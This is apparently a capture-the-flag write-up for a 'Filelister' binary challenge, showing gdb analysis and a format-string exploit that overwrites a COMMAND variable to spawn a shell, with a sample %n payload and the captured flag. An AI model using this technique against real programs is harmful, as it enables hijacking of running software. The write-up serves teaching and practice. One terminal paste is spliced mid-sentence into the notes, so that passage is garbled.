


Original Github Link
Filelister
Description


Solution
Basic Analysis
Static
I disassembled the binary in FileAnalysis.txt
From the
The variable COMMAND is stored in rip+0x200913 (or also in 0x601058 I think)
Dynamic
Through some experimentation on the input we know we can access the input on the stack in the format string from the 4th parameter onwards
(base) [hacker@hackerbook Filelister]$ ./Given/filelister
_______ _ _ __ _ _______ __ __ _______ _______ ______
| || | _ | || | | || || | | || || || _ |
| _ || || || || |_| ||_ _|| | | ||_ _|| _ || | ||
| |_| || || | | | | |_| | | | | | | || |_||_
| ___|| || _ | | | | | | | | |_| || __ |
| | | _ || | | | | | | | | | | || | | |
|___| |__| |__||_| |__| |___| |_______| |___| |_______||___| |_|
=========================================================================
Stage 4: FileLister
=========================================================================
Enter Username => AAAA %x %x %x %x %x %x %x %x %x %x %x
Greetings AAAA 87ecd290 0 0 87ecf3b0 0 41414141 25207825 20782520 78252078 25207825 df6a6808
Here are my files!
Description1.png Description2.png FileAnalysis.txt Given README.md solve.py
(base) [hacker@hackerbook Filelister]$
I opened the binary in gdb and tried to confirm the location of thh COMMAND variable
Breakpoint 1, 0x0000000000400751 in main ()
(gdb) ni
0x0000000000400758 in main ()
(gdb) ni
0x0000000000400761 in main ()
(gdb) info reg
rax 0xa3a74f800b8aa400 -6654262513048574976
rbx 0x400880 4196480
rcx 0x7ffff7f98598 140737353713048
rdx 0x7fffffffe5b8 140737488348600
rsi 0x7fffffffe5a8 140737488348584
rdi 0x1 1
rbp 0x7fffffffe4b0 0x7fffffffe4b0
rsp 0x7fffffffe3a0 0x7fffffffe3a0
r8 0x0 0
r9 0x7ffff7fdc070 140737353990256
r10 0x69682ac 110527148
r11 0x202 514
r12 0x400610 4195856
r13 0x0 0
r14 0x0 0
r15 0x0 0
rip 0x400761 0x400761 <main+20>
eflags 0x206 [ PF IF ]
cs 0x33 51
ss 0x2b 43
ds 0x0 0
es 0x0 0
fs 0x0 0
gs 0x0 0
(gdb) x/s 0x601058
0x601058 <COMMAND>: "/bin/ls"
(gdb) x/s 0x60105D
0x60105d <COMMAND+5>: "ls"
Approach
Modifying the values
The main idea is to modify the value of the COMMAND variable to be sh, such that it gives a shell which we can then do stuff with.
Breakpoint 2, 0x0000000000400852 in main ()
(gdb) set {char [8]}0x601058="/bin/sh"
(gdb) x/s 0x601058
0x601058 <COMMAND>: "/bin/sh"
(gdb) continue
Continuing.
[Detaching after vfork from child process 81537]
[Inferior 1 (process 81290) exited normally]
(gdb)
Breakpoint 2, 0x0000000000400852 in main ()
(gdb) set {char [8]}0x601058="echo 1 "
(gdb) continue
Continuing.
[Detaching after vfork from child process 82035]
1
[Inferior 1 (process 81992) exited normally]
(gdb)
Testing setting the value of COMMAND with an integer.
Breakpoint 2, 0x0000000000400852 in main ()
(gdb) set {int}0x60105B=4050481227897136438
(gdb) x/s 0x601058
0x601058 <COMMAND>: "/bi6e2f"
(gdb) set {int}0x60105D=0x7363
(gdb) x/s 0x601058
0x601058 <COMMAND>: "/bi6ecs"
(gdb) set {int}0x60105D=0x736c
(gdb) x/s 0x601058
0x601058 <COMMAND>: "/bi6els"
(gdb) set {int}0x601058=0x0000736c
(gdb) x/s 0x601058
0x601058 <COMMAND>: "ls"
(gdb)
(gdb) set {int}0x601058=0x00006873
(gdb) x/s 0x601058
0x601058 <COMMAND>: "sh"
Organising the payload
This is a typical format string exploit, as you can see from the printf(username) in the source code. If you don't understand what is this, google for LiveOverflow's Binary Exploitation Video series (as what I usually say).
Usually for a format string exploit where we put the values in the payload like this
address + %{excess padding required to reach length}p+%{nth argument to printf (to reach the address)}n
For example, the code below writes the value 26739 = 0x00006873 to the 4th item on the stack
\x58\x10\x60\x00\x00\x00\x00\x00%26731x%4$n
However there is a problem with this approach. Since our variable address is so small, it is full of null bytes \x00. The program would only look at the string till the null byte, so it becomes like this
\x58\x10\x60
A way I thought to get around this is just to move the address to the back of the payload so it doesn't screw up the string passed into the printf function. You also need some padding before the address, so that the address fits nicely into a memory location printf can call from. Kind of like this
%{excess padding required to reach length}p+%{nth argument to printf (to reach the address)}n + padding2(from 0 to 8 characters) + address
We know the excess padding required to reach the length, but we don't know what argument the address is, and the amount of padding required
Fuzzing
I basically coded a python program in solve.py to find the above 2 values needed. After that it connects to the server, sends the payload and gets the flag.
Some things to take note.
- It is a 64 bit binary, so the address needs to be 16 bytes long. Notice how when you input in
%pthe program gives an output of more than just 8 bytes long?
What this means is that the address needs to be 16 bytes long. In short, what this means in pwntools is to use$ Given/filelister _______ _ _ __ _ _______ __ __ _______ _______ ______ | || | _ | || | | || || | | || || || _ | | _ || || || || |_| ||_ _|| | | ||_ _|| _ || | || | |_| || || | | | | |_| | | | | | | || |_||_ | ___|| || _ | | | | | | | | |_| || __ | | | | _ || | | | | | | | | | | || | | | |___| |__| |__||_| |__| |___| |_______| |___| |_______||___| |_| ========================================================================= Stage 4: FileLister ========================================================================= Enter Username => %p Greetings 0x7ffce549e660 Here are my files!p64for packing bytes notp32 %pis always better than%x, because when a hex value is printed using%p, it also has the0xheader automatically given for you. Easy way to separate the values if for example you give in an input like%p%p- When
printfcalls the arguments, it is reading off from the original string input, NOT the formatted string given as output. Conceptually this makes sense, because when reading off the arguments from the stack, it is the inital string that is on the stack, and not the formatted string output. But this is just here just in case there is any conceptual misunderstanding.
Running solve.py should get you the flag, as well as an interactive shell if you are interested.
Flag
CTFSG{f1l3l15t3r_m0r3_l1k3_sh3ll_pr0v1d3r}